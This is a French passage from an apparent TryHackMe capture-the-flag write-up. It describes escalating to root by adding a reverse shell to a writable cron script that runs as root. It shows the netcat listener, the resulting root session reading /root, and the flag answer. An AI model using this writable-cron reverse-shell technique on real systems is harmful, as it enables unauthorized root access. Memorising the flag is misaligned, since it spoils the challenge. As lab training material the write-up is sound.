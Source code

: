 Dans le fichier crontab on remarque qu'il exécute un script avec les droits root.   
On remarque que l'on peut écrire dans le fichier.   
On lui inclut un reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ netcat -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.5.155] 49368
mesg: ttyname failed: Inappropriate ioctl for device
id
uid=0(root) gid=0(root) groups=0(root)
cd /root 
ls -al
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root  883 Jun 15  2020 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
```

On écoute le port 1234 pour établir une connexion avec le reverse shell.  
On obtient un shell avec les droits root.   
Dans le répertoire root on trouve le flag dans le fichier .root.txt    

La réponse est : flag{63a9f0ea7bb98050796b649e85481845}    